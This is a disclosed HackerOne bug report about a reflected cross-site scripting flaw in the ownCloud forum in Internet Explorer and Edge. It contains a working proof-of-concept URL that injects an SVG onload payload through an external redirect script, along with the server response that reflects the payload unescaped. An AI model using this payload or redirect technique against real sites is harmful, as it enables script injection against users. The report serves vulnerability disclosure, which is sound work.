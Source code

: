 # [forum.owncloud.org] IE, Edge XSS via Request-URI

## Report Details
- **Report ID**: 154319
- **URL**: https://hackerone.com/reports/154319
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-27T11:33:30.636Z
- **Disclosed**: 2016-08-30T16:26:03.368Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: owncloud

## Vulnerability Information
**PoC** (Internet Explorer, Edge):
```
https://blackfan.ru/x?r=https://forum.owncloud.org/<svg/onload=alert(document.domain)>/%252e%252e
```
blackfan.ru/x?r - simple redirection script, that necessary for exploitation


**HTTP Response**:
```html
<div class="panel" id="message">
	<div class="inner">
	<h2 class="message-title">Information</h2>
	<p>No route found for "GET /<svg/onload=alert(document.domain)>/%2e%2e"</p>
		</div>
</div>
```

## Attachments
- Screenshot_at_15-32-56.png

